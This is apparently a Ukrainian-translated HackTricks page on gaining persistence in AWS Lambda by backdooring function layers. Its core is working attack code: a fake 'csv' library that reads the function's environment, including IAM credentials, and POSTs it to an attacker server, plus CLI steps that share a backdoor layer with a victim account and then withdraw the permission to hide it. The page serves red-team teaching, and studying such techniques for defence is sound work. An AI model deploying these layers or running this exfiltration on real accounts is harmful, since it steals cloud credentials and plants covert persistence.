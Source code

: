 # AWS - Напохмурення шарів Lambda

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа взлому HackTricks для експертів червоних команд AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа взлому HackTricks для експертів червоних команд GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
{% endhint %}

## Шари Lambda

Шар Lambda - це архів .zip, **який може містити додатковий код** або інший вміст. Шар може містити бібліотеки, [власний рантайм](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), дані або файли конфігурації.

Можливо включити до **п'яти шарів на функцію**. Коли ви включаєте шар у функцію, **вміст розпаковується в каталог `/opt`** в середовищі виконання.

За **замовчуванням**, **шари**, які ви створюєте, **приватні** для вашого облікового запису AWS. Ви можете вибрати **поділитися** шаром з іншими обліковими записами або **зробити** шар **публічним**. Якщо ваші функції використовують шар, який опублікував інший обліковий запис, ваші функції можуть **продовжувати використовувати версію шару після його видалення або після скасування вашого дозволу на доступ до шару**. Однак ви не можете створити нову функцію або оновити функції, використовуючи видалену версію шару.

Функції, розгорнуті як зображення контейнера, не використовують шари. Замість цього ви упаковуєте ваш вибраний рантайм, бібліотеки та інші залежності в зображення контейнера під час його побудови.

### Шлях завантаження Python

Шлях завантаження, який Python використовуватиме в лямбді, наступний:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Перевірте, як **друга** та третя **позиції** зайняті каталогами, де **шари lambda** розпаковують свої файли: **`/opt/python/lib/python3.9/site-packages`** та **`/opt/python`**

{% hint style="danger" %}
Якщо зловмисник зміг **додати шпигунську програму** до використаного **шару lambda** або **додати один**, який буде **виконувати довільний код при завантаженні загальної бібліотеки**, він зможе виконати шкідливий код при кожному виклику lambda.
{% endhint %}

Отже, вимоги такі:

* **Перевірте бібліотеки**, які **завантажуються** кодом жертв
* Створіть **проксі-бібліотеку з шарами lambda**, яка буде **виконувати власний код** та **завантажувати оригінальну** бібліотеку.

### Попередньо завантажені бібліотеки

{% hint style="warning" %}
Під час зловживання цією технікою я зіткнувся з труднощами: Деякі бібліотеки **вже завантажені** в час виконання python, коли ваш код виконується. Я очікував знайти такі речі, як `os` або `sys`, але навіть **бібліотека `json` була завантажена**.\
Для зловживання цією технікою постійності, код повинен **завантажити нову бібліотеку, яка не завантажена** під час виконання коду.
{% endhint %}

За допомогою коду Python, подібного до цього, можливо отримати **список бібліотек, які попередньо завантажені** в середовищі виконання python в lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
І ось це **список** (перевірте, що бібліотеки, такі як `os` або `json`, вже там)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
І ось список **бібліотек**, які **lambda включає встановленими за замовчуванням**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Підставлення в Lambda Layer

У цьому прикладі давайте припустимо, що цільовий код імпортує **`csv`**. Ми збираємося **підставити імпорт бібліотеки `csv`**.

Для цього ми збираємося **створити каталог csv** з файлом **`__init__.py`** в ньому за шляхом, який завантажується lambda: **`/opt/python/lib/python3.9/site-packages`**\
Потім, коли lambda виконується і намагається завантажити **csv**, наш **файл `__init__.py` буде завантажений і виконаний**.\
Цей файл повинен:

* Виконати нашу вразливість
* Завантажити оригінальну бібліотеку csv

Ми можемо зробити це обидва за допомогою:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Потім створіть zip-архів з цим кодом за шляхом **`python/lib/python3.9/site-packages/__init__.py`** та додайте його як шар лямбди.

Ви можете знайти цей код за посиланням [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Інтегрований вразливий код **надсилатиме IAM-повноваження на сервер ПЕРШИЙ РАЗ, коли його викликають або ПІСЛЯ скидання контейнера лямбди** (зміна коду або холодна лямбда), але **інші техніки**, такі як наступні, також можуть бути інтегровані:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Зовнішні шари

Зверніть увагу, що можна використовувати **шари лямбди з зовнішніх облікових записів**. Більше того, лямбда може використовувати шар з зовнішнього облікового запису навіть якщо у нього немає дозволів.\
Також зверніть увагу, що **максимальна кількість шарів, яку може мати лямбда, - 5**.

Отже, для поліпшення універсальності цієї техніки зловмисник може:

* Додати вразливість до існуючого шару користувача (нічого не є зовнішнім)
* **Створити** **шар** у **своєму обліковому записі**, надати **обліковому запису жертви доступ** до використання шару, **налаштувати** **шар** в лямбді жертви та **видалити дозвіл**.
* **Лямбда** все ще зможе **використовувати шар**, а **жертва не** матиме простого способу **завантажити код шарів** (окрім отримання оберненого шелу всередині лямбди)
* Жертва **не побачить зовнішні шари**, використані з **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа взлому AWS для Червоної Команди (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа взлому GCP для Червоної Команди (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
